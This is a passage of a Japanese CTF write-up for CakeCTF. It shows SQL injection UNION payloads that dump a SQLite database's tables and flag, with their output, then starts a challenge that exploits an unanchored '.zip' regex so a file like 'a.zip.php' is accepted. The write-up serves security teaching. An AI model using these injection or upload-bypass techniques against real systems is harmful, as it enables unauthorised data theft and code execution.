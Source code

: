 スクリプトを書いてテーブルを漁ります:

```sh
$ python exploit.py "'OR 1=1 UNION SELECT NULL,tbl_name,NULL,NULL FROM sqlite_master /*" | jq
{
  "result": [
    {
      "nid": null,
      "species": "flag",
      "name": null,
      "age": null
    }
  ]
}

$ python exploit.py "'OR 1=1 UNION SELECT NULL,flag,NULL,NULL FROM flag /*" | jq
{
  "result": [
    {
      "nid": null,
      "species": "CakeCTF{BUG-REPORT-ACCEPTED:Reward=222-Matatabi-Sticks}",
      "name": null,
      "age": null
    }
  ]
}
```

### フラグ

```
CakeCTF{BUG-REPORT-ACCEPTED:Reward=222-Matatabi-Sticks}
```

## [web] ziperatops

266 pts, 11 solves

問題文:
> Zip Listing as a Service
> * The flag is written in somewhere on the root directory of the machine.

zipファイルを投稿できて、その中身のファイル名一覧を表示できるサービスが与えられます。

### 解法

```php
        /* Check extension */
        if (preg_match('/^.+\.zip/', $filename, $result) !== 1)
            return array($dname, "Invalid extension (Only .zip is allowed)");
```
まずここの判定で、`'/^.+\.zip$/'`ではなく`'/^.+\.zip/'`で判定しているのがあやしいです。
`a.zip.php`みたいなファイル名も通過します。


[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。
[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md